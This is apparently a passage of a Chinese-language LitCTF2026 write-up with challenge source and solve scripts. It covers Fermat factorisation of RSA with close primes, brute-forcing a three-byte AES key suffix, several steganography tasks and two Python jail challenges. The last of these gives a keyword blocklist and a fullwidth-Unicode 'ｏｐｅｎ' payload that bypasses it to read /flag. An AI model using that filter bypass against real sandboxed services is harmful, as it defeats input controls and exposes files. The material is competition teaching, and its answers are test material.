print(long_to_bytes(m))
```



litctf\{elgamal\_leak\_makes\_happy\_decrypt\}

## lit\_rsa\_neighbor

题目原件

```python
#!/usr/bin/env python3
"""
LitCTF2026 — RSA where q is 'far' along the prime line but still close enough to p for Fermat.
"""
from __future__ import annotations

import argparse
from pathlib import Path

import gmpy2
from Crypto.Util.number import bytes_to_long, getPrime

try:
    from secret import FLAG, NEXT_PRIME_STEPS
except ImportError as e:
    raise SystemExit(
        "secret.py is required to generate output (FLAG, NEXT_PRIME_STEPS)."
    ) from e

E = 65537


def main() -> None:
    parser = argparse.ArgumentParser()
    parser.add_argument(
        "--write",
        type=Path,
        help="Write n, c to this file.",
    )
    args = parser.parse_args()

    p = getPrime(512)
    q = p
    for _ in range(NEXT_PRIME_STEPS):
        q = int(gmpy2.next_prime(q))

    n = p * q
    m = bytes_to_long(FLAG)
    if m >= n:
        raise ValueError("flag too large for n")

    c = pow(m, E, n)

    lines_players = [f"{n = }", f"{c = }", f"e = {E}"]
    text = "\n".join(lines_players) + "\n"
    print(text, end="")
    if args.write:
        args.write.write_text(text, encoding="utf-8")


if __name__ == "__main__":
    main()

# n = 139637440016232025690294457609899605991056011052010466558411851317943636600860419882966079629826706361935550982744312593243181819999590825159611186779613601241742349986440676188542381451066058816661317621009248513651083772907520139375108426466691332559612971244160246310746215067136490772061317571744230078911
# c = 81172369642931859390486697024961350889751244109623802937988620847486863147682579984823958801948701482096140632580173113959531836503723522945335985723867818778699337807630592078265626995722998378992215523352858561923474395550395284015986525513984910021995657780411466237306614109262460764382539311725297619429
# e = 65537
```

题目源码核心逻辑:

```python
p = getPrime(512)
q = p
for _ in range(NEXT_PRIME_STEPS):
    q = int(gmpy2.next_prime(q))

n = p * q
c = pow(m, E, n)
```

`q` 是从 `p` 开始连续调用 `next\_prime` 若干次得到的,因此 `p` 和 `q` 非常接近\(只差几个素数间隙\)。

给定数据:

```text
n = 139637440016232025690294457609899605991056011052010466558411851317943636600860419882966079629826706361935550982744312593243181819999590825159611186779613601241742349986440676188542381451066058816661317621009248513651083772907520139375108426466691332559612971244160246310746215067136490772061317571744230078911
c = 81172369642931859390486697024961350889751244109623802937988620847486863147682579984823958801948701482096140632580173113959531836503723522945335985723867818778699337807630592078265626995722998378992215523352858561923474395550395284015986525513984910021995657780411466237306614109262460764382539311725297619429
e = 65537
```

**解题思路**

当 \`p\` 和 \`q\` 很接近时,适用 **Fermat 因式分解法**:

设 `n = p \* q`,令 `a = \(p \+ q\) / 2`,`b = \(q \- p\) / 2`,则:

$n = a^2 - b^2$

从 `a = ⌈√n⌉` 开始递增,每次检查 `a² \- n` 是否为完全平方数。当 `p` 和 `q` 接近时,`a` 离 `√n` 很近,迭代次数极少。

**解题脚本**

```python
#!/usr/bin/env python3
import gmpy2
from Crypto.Util.number import long_to_bytes

n = 139637440016232025690294457609899605991056011052010466558411851317943636600860419882966079629826706361935550982744312593243181819999590825159611186779613601241742349986440676188542381451066058816661317621009248513651083772907520139375108426466691332559612971244160246310746215067136490772061317571744230078911
c = 81172369642931859390486697024961350889751244109623802937988620847486863147682579984823958801948701482096140632580173113959531836503723522945335985723867818778699337807630592078265626995722998378992215523352858561923474395550395284015986525513984910021995657780411466237306614109262460764382539311725297619429
e = 65537

# Fermat factorization
a = gmpy2.isqrt(n) + 1
count = 0
while True:
    b2 = a * a - n
    if gmpy2.is_square(b2):
        b = gmpy2.isqrt(b2)
        p = int(a - b)
        q = int(a + b)
        print(f"Found after {count} iterations")
        print(f"p = {p}")
        print(f"q = {q}")
        break
    a += 1
    count += 1
    if count % 100000 == 0:
        print(f"iter {count}")

assert p * q == n
phi = (p - 1) * (q - 1)
d = pow(e, -1, phi)
m = pow(c, d, n)
flag = long_to_bytes(int(m))
print(flag)

```



litctf\{rsa\_fermat\_finds\_close\_primes\}

## lit\_tiny\_key\_aes

题目原件

```python
#!/usr/bin/env python3
"""
LitCTF2026 — AES-128-ECB with a mostly fixed key (weak operational policy).
"""
from __future__ import annotations

import argparse
from pathlib import Path

from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

try:
    from secret import FLAG, UNKNOWN_KEY_SUFFIX
except ImportError as e:
    raise SystemExit(
        "secret.py is required to generate ciphertext (contains FLAG and key suffix)."
    ) from e

KEY_PREFIX = b"LitCTF2026!!!"  # 13 bytes; 3 bytes brute-forced
assert len(KEY_PREFIX) + len(UNKNOWN_KEY_SUFFIX) == 16


def encrypt_aes_ecb_pkcs7(plaintext: bytes, key: bytes) -> bytes:
    cipher = AES.new(key, AES.MODE_ECB)
    return cipher.encrypt(pad(plaintext, AES.block_size))


def main() -> None:
    parser = argparse.ArgumentParser()
    parser.add_argument(
        "--write",
        type=Path,
        help="Write ciphertext hex to this file.",
    )
    args = parser.parse_args()

    key = KEY_PREFIX + UNKNOWN_KEY_SUFFIX
    c = encrypt_aes_ecb_pkcs7(FLAG, key)
    line = f"c = {c!r}\n"
    print(line, end="")
    if args.write:
        args.write.write_text(line, encoding="utf-8")


if __name__ == "__main__":
    main()

# c = b"\x0c\xdb'`\xc91\xf7\x05\x91+\x0fM\xed\xbc\x9b\xf1\xd8D\xcd\xfd\x0c\xb9\xb6\xb2J<\x86\x19\x06K\xb3\xa2\xa4\x18\x87<v\xac\x1bbu#\xaa\xb5I\x7f\xd8\xd3"
```

**题目分析**

题目给出一份 AES\-128\-ECB 加密脚本和一段密文：

```python
KEY_PREFIX = b"LitCTF2026!!!"  # 13 bytes; 3 bytes brute-forced
assert len(KEY_PREFIX) + len(UNKNOWN_KEY_SUFFIX) == 16
```

**关键信息：**

- AES\-128 密钥共 16 字节

- 前 13 字节是已知常量 `LitCTF2026\!\!\!`

- 后 3 字节随机未知（即 `UNKNOWN\_KEY\_SUFFIX`）

- 注释里也写明 `3 bytes brute\-forced`

**思路**

未知部分仅 3 字节，搜索空间 256³ ≈ 1\.6×10⁷，单机几十秒内即可枚举完。

对每个候选 key 解密，再用两条筛选条件锁定真 key：

1. PKCS7 `unpad` 不抛异常（过滤掉绝大多数错误 key）

2. 解密结果全部是可打印 ASCII

**解题脚本**

```python
#!/usr/bin/env python3
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
from itertools import product

KEY_PREFIX = b"LitCTF2026!!!"
c = b"\x0c\xdb'`\xc91\xf7\x05\x91+\x0fM\xed\xbc\x9b\xf1\xd8D\xcd\xfd" \
    b"\x0c\xb9\xb6\xb2J<\x86\x19\x06K\xb3\xa2\xa4\x18\x87<" \
    b"v\xac\x1bbu#\xaa\xb5I\x7f\xd8\xd3"

for s in product(range(256), repeat=3):
    key = KEY_PREFIX + bytes(s)
    pt = AES.new(key, AES.MODE_ECB).decrypt(c)
    try:
        flag = unpad(pt, 16)
    except ValueError:
        continue
    if all(32 <= b < 127 for b in flag):
        print(f"suffix = {bytes(s)!r}")
        print(f"flag   = {flag.decode()}")
        break
```



litctf\{aes\_tiny\_brut3\_for\_the\_win\!\}

# Misc

## lit\_lsb\_base64

题目提示是LSB隐写，直接扔进随波逐流



base64解码



拿到flag

```text
LitCTF{lsb_1s_fun_w1th_b4s3_64}
```

## lit\_rush\_qr

附件给了一个gif，我们可以用[iloveimg](https://www.iloveimg.com/zh-cn/convert-to-jpg)这个网站把gif转为图片



可以发现二维码缺少定位符，依旧随波逐流



补全三个定位角之后即可识别



得到

```text
LitCTF{qr_h1gh_3rr_c0r_r3c0v3ry}
```

## lit\_welcome

依旧拖进随波逐流



lsb分析



拿到flag

```text
LitCTF{w3lc0m3_t0_m1sc_w0rld}
```

## lit\_sstv

直接用在线网站解sstv

https://sstv\-decoder\.mathieurenaud\.fr/



拿到flag

```text
LitCTF{sstv_p4t13nc3}
```

## lit\_pyjail\_reader

题目原件

```python
#!/usr/bin/env python3
"""LitCTF — 入门 Pyjail：验证码 + 按指引两次只读文件（无 RCE）。"""

import secrets
import socket
import string
import threading

HOST = "0.0.0.0"
PORT = 9999
MAX_QUEUED = 64
MAX_LINE = 512
MAX_FILE = 4096


def recv_line(conn: socket.socket) -> str:
    data = bytearray()
    while len(data) < MAX_LINE:
        chunk = conn.recv(1)
        if not chunk:
            break
        if chunk == b"\n":
            break
        data += chunk
    return data.decode("utf-8", errors="replace").strip()


def safe_read(path: str) -> str:
    p = path.strip()
    if not p or p.startswith("-") or "\x00" in p:
        raise ValueError("invalid path")
    with open(p, "r", errors="replace") as f:
        return f.read(MAX_FILE)


def handle(conn: socket.socket) -> None:
    try:
        conn.settimeout(120)
        alphabet = string.ascii_uppercase
        challenge = "".join(secrets.choice(alphabet) for _ in range(8))
        conn.sendall(
            f"Please enter the reverse of '{challenge}' to continue: ".encode()
        )
        ans = recv_line(conn)
        if ans != challenge[::-1]:
            conn.sendall(b"Wrong reverse string. Bye.\n")
            return
        conn.sendall(
            b"Good.\n"
            b"Step 1: read /app/where_is_flag.txt (it contains the flag path).\n"
            b"Step 2: read that path.\n"
            b"File path (1/2): "
        )
        p1 = recv_line(conn)
        try:
            c1 = safe_read(p1)
        except Exception as e:
            conn.sendall(f"Error: {e}\n".encode(errors="replace"))
            return
        conn.sendall(b"--- begin ---\n")
        conn.sendall(c1.encode(errors="replace"))
        conn.sendall(b"\n--- end ---\nFile path (2/2): ")
        p2 = recv_line(conn)
        try:
            c2 = safe_read(p2)
        except Exception as e:
            conn.sendall(f"Error: {e}\n".encode(errors="replace"))
            return
        conn.sendall(c2.encode(errors="replace"))
        conn.sendall(b"\n")
    finally:
        conn.close()


def main() -> None:
    srv = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    srv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    srv.bind((HOST, PORT))
    srv.listen(MAX_QUEUED)
    while True:
        client, _ = srv.accept()
        threading.Thread(target=handle, args=(client,), daemon=True).start()


if __name__ == "__main__":
    main()
```

对题目原件分析后

整道题不需要任何绕过，**完全按照服务器的 Step1 / Step2 顺序走**即可。脚本主要负责：

1. 接收 banner，正则提取 8 字母 challenge

2. 反转后送回

3. 发送 `/app/where\_is\_flag\.txt`

4. 解析 `\-\-\- begin \-\-\- \.\.\. \-\-\- end \-\-\-` 之间的内容拿到真实路径

5. 把这个路径再发回去，收最后输出

经典的新手引导型交互题

流程：

反转验证码 

读取： /app/where\_is\_flag\.txt

得到真正 flag 路径 

第二次读取那个路径 

拿 flag



```text
flag{sisx9chi-ciik-4cd-81xr-vcfrxt7frexgh}
```

## lit\_pyjail\_unicode

原件

```python
#!/usr/bin/env python3
"""LitCTF — Unicode 标识符绕过：过滤检查原始源码字符串，解释器仍接受全角等价标识符。"""

import re
import socket
import threading

HOST = "0.0.0.0"
PORT = 9999
MAX_QUEUED = 64
MAX_LINE = 240

# 仅检查「你键入的文本」：ASCII 关键字用词边界，避免匹配到 important 等
BANNED = re.compile(
    r"\bimport\b|\bexec\b|\beval\b|\bopen\b|\bcompile\b|\bglobals\b|\blocals\b|__|"
    r"\bgetattr\b|\bsetattr\b|\bdelattr\b|\bvars\b|\bbreakpoint\b|\binput\b|"
    r"\bsubprocess\b|\bpty\b|os.|sys.|\bposix\b",
    re.IGNORECASE,
)


def banned(raw: str) -> bool:
    if "\\u" in raw or "\\U" in raw or "\\x" in raw:
        return True
    return BANNED.search(raw) is not None


def handle(conn: socket.socket) -> None:
    try:
        conn.settimeout(60)
        conn.sendall(
            b"=== LitCTF pyjail unicode ===\n"
            b"Send ONE line of Python. It will be eval() with full __builtins__.\n"
            b"ASCII blacklist applies to your *source text* (see attachment jail.py).\n"
            b"Goal: read /flag and get its str content.\n> "
        )
        raw = bytearray()
        while len(raw) < MAX_LINE:
            ch = conn.recv(1)
            if not ch:
                break
            if ch == b"\n":
                break
            raw += ch
        line = raw.decode("utf-8", errors="replace").strip()
        if not line:
            conn.sendall(b"empty\n")
            return
        if banned(line):
            conn.sendall(b"disallowed pattern in source\n")
            return
        try:
            out = eval(line, {"__builtins__": __builtins__})
            conn.sendall(repr(out).encode(errors="replace") + b"\n")
        except Exception as e:
            conn.sendall(f"{type(e).__name__}: {e}\n".encode(errors="replace"))
    finally:
        conn.close()


def main() -> None:
    srv = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    srv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    srv.bind((HOST, PORT))
    srv.listen(MAX_QUEUED)
    while True:
        c, _ = srv.accept()
        threading.Thread(target=handle, args=(c,), daemon=True).start()


if __name__ == "__main__":
    main()
```

题目给了一个 Python pyjail，并提示：

```text
Send ONE line of Python. It will be eval() with full __builtins__.
ASCII blacklist applies to your source text.
Goal: read /flag
```

源码关键部分：

```text
BANNED = re.compile(
    r"\bimport\b|\bexec\b|\beval\b|\bopen\b|..."
)

if banned(line):
    conn.sendall(b"disallowed pattern in source\n")
    return

out = eval(line, {"__builtins__": __builtins__})
```

可以看到：

- 黑名单只检查「原始输入字符串」 

- 但 `eval\(\)` 使用完整 `builtins`

- 并没有真正删除 `open`

题目名是 **unicode**，因此考虑 Unicode 标识符绕过。

一句话总结

黑名单看的是字节，解析器看的是 NFKC 归一化后的标识符——两者认知不一致就是这道题的洞。把 `open` 写成全角 `ｏｐｅｎ`，正则一无所知，编译器照常解析为内置 `open`，eval 一行 `ｏｐｅｎ\(\&\#39;/flag\&\#39;\)\.read\(\)` 收工。

用全角字符绕过

```text
import socket

HOST = "challenge.cyclens.tech"
PORT = 32326

s = socket.socket()
s.connect((HOST, PORT))

print(s.recv(4096).decode())

payload = "ｏｐｅｎ('/flag').read()\n"

s.send(payload.encode())

print(s.recv(4096).decode())

s.close()
```




